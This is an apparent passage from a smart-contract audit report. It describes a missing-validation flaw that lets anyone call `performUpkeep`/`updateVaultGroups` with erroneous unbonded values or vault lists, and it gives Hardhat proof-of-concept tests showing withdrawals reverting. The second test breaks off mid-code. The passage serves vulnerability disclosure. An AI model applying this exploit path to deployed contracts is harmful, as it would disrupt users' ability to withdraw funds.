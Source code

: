 Setting `totalUnbonded` to `0`, although less impactful, would also break depositing into vaults with active unbonding in `_depositToVaults`:
```solidity
                if (vault.unbondingActive()) {
                    totalRebonded += deposits;
                }
...

        if (totalRebonded != 0) totalUnbonded -= totalRebonded;
```

Providing erroneous vaults could be used to reorder which vaults are available to withdraw from causing disruptions in withdrawals. Since `FundFlowController` and `VaultControllerStrategy` assumes that all vaults with deposits in the group are available when the group is active.

**Proof of Concept:** Two tests, one for `totalUnbonded` and one for the unbonded vaults, that can be added to `vault-controller-strategy.test.ts`:
```javascript
  it('performUpkeep, updateVaultGroups can be called by anyone and lacks validation for totalUnbonded', async () => {
    const { adrs, strategy, token, stakingController, vaults, updateVaultGroups } =
      await loadFixture(deployFixture)

    // Deposit into vaults
    await strategy.deposit(toEther(500), encodeVaults([]))
    assert.equal(fromEther(await token.balanceOf(adrs.stakingController)), 500)
    for (let i = 0; i < 5; i++) {
      assert.equal(fromEther(await stakingController.getStakerPrincipal(vaults[i])), 100)
    }
    assert.equal(Number((await strategy.globalVaultState())[3]), 5)

    // do the initial rotation to get a vault into claim period
    await updateVaultGroups([0, 5, 10], 0)
    await time.increase(claimPeriod)
    await updateVaultGroups([1, 6, 11], 0)
    await time.increase(claimPeriod)
    await updateVaultGroups([2, 7], 0)
    await time.increase(claimPeriod)
    await updateVaultGroups([3, 8], 0)
    await time.increase(claimPeriod)

    // user calls `fundFlowController.performUpkeep` with erroneous `totalUnbonded`
    await updateVaultGroups([4, 9], 0)

    // causing withdrawals to stop working
    await expect(
      strategy.withdraw(toEther(50), encodeVaults([0, 5]))
    ).to.be.revertedWithCustomError(strategy, 'InsufficientTokensUnbonded()')
  })

  it('performUpkeep, updateVaultGroups can be called by anyone and lacks validation for unbonded vaults', async () => {
    const { adrs, strategy, token, stakingController, vaults, updateVaultGroups } =
      await loadFixture(deployFixture)

    // Deposit into vaults
    await strategy.deposit(toEther(500), encodeVaults([]))
    assert.equal(fromEther(await token.balanceOf(adrs.stakingController)), 500)
    for (let i = 0; i < 5; i++) {
      assert.equal(fromEther(await stakingController.getStakerPrincipal(vaults[i])), 100)
    }
    assert.equal(Number((await strategy.globalVaultState())[3]), 5)

    // calling `fundFlowController.performUpkeep` with vaults in other groups
    await updateVaultGroups([0, 1, 2, 3, 4], 0)
```